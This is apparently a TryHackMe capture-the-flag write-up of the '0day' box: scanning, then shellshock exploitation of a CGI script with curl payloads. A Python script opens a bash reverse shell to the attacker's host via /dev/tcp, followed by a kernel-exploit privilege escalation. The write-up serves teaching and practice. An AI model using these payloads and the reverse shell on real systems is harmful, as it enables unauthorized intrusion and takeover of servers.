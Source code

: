 # 0Day Writeup

## Introduction

0day is a medium box on the TryHackMe platform. The box involves exploiting a website with shellshock and exploiting an outdated linux kernel.

## Scanning

To start our enumeration of the box we do an initial nmap scan. Using `-sC` for default scripts, `-sV` for version enumeration and `-oA` to output the results to a file.
```
nmap -sC -sV -oA <IP>

Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 11:35 EDT
Nmap scan report for 10.10.75.170
Host is up (0.018s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The results of this nmap show 2 ports open:
+ port 80 which is a HTTP server.
+ Port 22 which is a SSH service.

Our next step is to look into the HTTP server. Navigating there in the browser shows a site which looks like Ryan's portfolio page.

![Website Front Page](website.png)

After looking around manually for a while. i decided to run a nikto scan of website.
```
nikto -h <IP>

+ Server: Apache/2.4.7 (Ubuntu)                                                                                               
+ The anti-clickjacking X-Frame-Options header is not present.                                                                
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS     
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header '93e4r0-cve-2014-6271' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /backup/: This might be interesting...
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3092: /cgi-bin/test.cgi: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ /admin/index.html: Admin login page/section found.
```

As you can see from our the scan a few interesting things appear. The first is the server vulnerability to shellshock and the backups and admin directories. When doing this box i first investigated the directories however, both of these turned out to be rabbit holes. So it was back to the shellshock vulnerability.

## Exploitation
After doing some research I found that the shellshock vulnerability works  by calling an empty bash function in the User-Agent header of any HTTP request sent to the vulnerable URL. From my nikto scan i know the vulnerable URL is http://<IP>/cgi-bin/test.cgi. So I used cURL to send my request. I first tried just changing the User-Agent header by running:
```
Command:
curl -A "() { :;};  /usr/bin/id;" http://<IP>/cgi-bin/test.cgi

Response:
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at <IP> Port 80</address>
</body></html>
```

As you can see this returns a 500 error. So something about our request is invalid according to the server. After researching this for a while I found that changing the user agent in the way i did made the request invalid because it did not contain a blank line before the body of the response and a properly formatted content-type header. To get around this I make my exploit echo these before running my injected command like so:

```
Command:
curl -A "() { :;};echo Content-Type: text/html; echo; /usr/bin/id;" http://<IP>/cgi-bin/test.cgi

Response:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now we have command execution we have a means to access to box via a reverse shell. For the extra challenge I decided to write a python script to run the exploit for me and give me a reverse shell.

```python
import requests
url = "http://<IP>/cgi-bin/test.cgi"
payload="() { :;}; echo Content-Type: text/html; echo; /bin/bash -c bash -i >& /dev/tcp/<My IP>/666 0>&1" 
print(payload)

r = requests.get(url, headers={"User-Agent": payload})
print(r.content)
```
This script imports the requests module, stores the URL and the payload as variables and then makes get request with the payload injected into the user-agent the same way as I did the request manually using cURL. When I run the script i started a netcat session on port 666 to catch the reverse shell and we are on the box. 

![netcat listening](netcat_listening.png)

![netcat running](netcat_running.png)

## Privilege Escalation

Now we have command execution on the box. We can look at privilege escalation. Now the first thing I do when getting onto a box is getting an interactive TTY. To do this there are a few steps:

1. run `python -c 'import pty;pty.spawn("/bin/bash")'` this spawns a bash prompt
2. press Ctrl + Z to background the netcat process
3. change the terminal into raw mode using `stty raw -echo`
4. foreground the netcat process by pressing "fg" and press enter twice.
5. set the term variable with export TERM=xterm
6. Now you have a fully interactive shell.

With that done we can move onto the good stuff. I start with 3 common manual enumeration techniques. First running `sudo -l` which gets me nowhere as we don't know www-data's password.

![sudo command not running](sudo_fail.png)

Next I run find to look for suid binaries and this returns nothing.

![find command returns no results](find_fail.png)

Lastly I run uname -a to see the kernel version of our box. 

![outdated kernel](outdated_kernel.png)

This returns something that might be useful. Putting the kernel version through google I can see it is outdated and potentially vulnerable to certain CVEs. After trying a few of them I came to CVE-2015-3028 (https://www.exploit-db.com/exploits/37292) and this CVE seemed promising.

I downloaded the exploit and then uploaded it to the server using the python web server method. This method involves using python to start a web server on our machine and then using wget on our victim machine to pull file from our side. Next I attempted to compile the exploit using gcc but, this returned an error. 

```
Command: gcc exploit.c -o privesc

Response: gcc: error trying to exec 'cc1': execvp: No such file or directory
```

Now clearly gcc cannot find a file it needs to compile the exploit. After going down a few rabbit holes I found that a solution for this kind of error was resetting the PATH variable to default. This is done by running `export PATH=/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games` after I attempted to compile the exploit again. This time the compilation was successful. Next I ran the exploit and it gave me access to root. From here I was bale to go to /home/ryan to get the user.txt flag and /root to get the root.txt flag.

![I am root](I_am_root.png)

## Conclusion

To conclude this box was quite the challenge for me and took lots of persistence to finally finish. Overall i enjoyed and i learned quite a bit about the functionally of the shellshock exploit as well as that gcc error.  